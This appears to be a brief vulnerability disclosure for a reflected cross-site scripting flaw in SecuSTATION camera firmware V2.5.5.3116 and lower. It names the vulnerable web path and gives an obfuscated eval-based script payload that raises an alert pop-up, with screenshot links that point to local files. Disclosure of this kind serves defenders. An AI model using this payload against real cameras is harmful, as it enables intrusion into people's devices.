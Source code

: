 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://raw.githubusercontent.com/kklzzcun/Camera/tree/main/assets
github/20241217100348501.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100507713.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100543071.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































